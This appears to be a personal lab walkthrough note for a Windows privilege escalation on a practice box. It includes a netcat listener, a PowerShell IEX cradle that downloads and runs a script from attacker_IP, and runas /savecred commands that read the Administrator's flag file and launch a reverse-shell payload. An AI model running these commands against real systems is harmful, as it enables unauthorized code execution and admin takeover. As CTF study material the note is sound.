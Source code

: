 ### a. Attack Vector
> We first find the vul'n; either manually or using any automatic script
> > ***Attacker***
> > - `nc -lvnp port`
> > - `cp /opt/JAWS/jaws-enum.ps1 <pwd>`
> > - `mv jaws-enum.ps1 jaws.ps1`
> > - `python -m http.server`
> > 
> > ***Target***
> > - `powershell "IEX(New-Object Net.WebClient).downloadString('http://attacker_IP:PORT/jaws.ps1')"`
> > - **OR Simply run the following** 
> > - `cmdkey /list`  --> Jaws.ps1 runs this command and finds the result automatically, you can do it manually as well.
> > 
> > > ![[Pasted image 20221109213058.png]]

### b. Mode of Attack

> Exploiting the **RunAs vul'n**
> > `where cmd.exe`
> > `where runas`
> > `C:\Windows\System32\runas.exe /user:ACCESS\Administrator /save:cred "C:\Windows\System32\cmd.exe /c type C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Desktop\root.txt"`
>  
> OR Simply run the above command wothout the full paths of the binaries *runas.exe* and *cmd.exe* instead just give *runas* and *cmd*
> 
> > `runas /user:ACCESS\Administrator /save:cred "cmd.exe /c type C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Desktop\root.txt"`
> > 
> > > ![[Pasted image 20221109221213.png]]

> Use the vul'n to spawn a revese shell since its running with Admin privs, you will get a admin shell
> > `runas /user:ACCESS\Administrator /save:cred "cmd.exe /c C:\Users\path\to\payload.bat"`
> > > ![[Pasted image 20221109221921.png]]
> > > ![[Pasted image 20221109215654.png]]


